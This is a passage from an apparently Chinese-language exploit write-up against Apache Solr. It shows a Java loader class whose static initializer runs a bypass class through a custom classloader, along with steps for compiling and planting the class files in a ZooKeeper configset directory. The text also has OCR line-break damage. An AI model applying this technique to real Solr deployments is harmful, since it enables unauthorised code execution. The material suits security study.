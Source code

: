 入口函数

```plain
package zk_backup_0.configs.conf1;

public class ExpBypassMain {
    static {
        ExpBypassLoader loader = new ExpBypassLoader();

        try {
            // 注意需要使用全限定类名，不然自定义的classloader是加载不到的
            Class<?> clz = Class.forName("zk_backup_0.configs.conf1.ExpBypassExec", true, loader);
            Object object = clz.newInstance();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }

    }
}
```

将以上三个类编译后生成的类文件全部放入 `conf1`，注意有 4 个类文件

> 前面我们提到由于 solr docker 的 jdk 是 17.10，为了防止版本差异导致运行出错，我们也使用 jdk17 编译，然而这个绕过姿势中的 AccessController 类在 jdk17 中废弃了，不过亲测 jdk8 编译也是可以的

```plain
conf1
├──

ExpBypassExec$1
.
class
├──

ExpBypassExec
.
class
├──

ExpBypassLoader
.
class
├──

ExpBypassMain
.
class
├──
 lang
├──
 managed
-
schema
.
xml
├──
 protwords
.
txt
├──
 solrconfig
.
xml
├──
 stopwords
```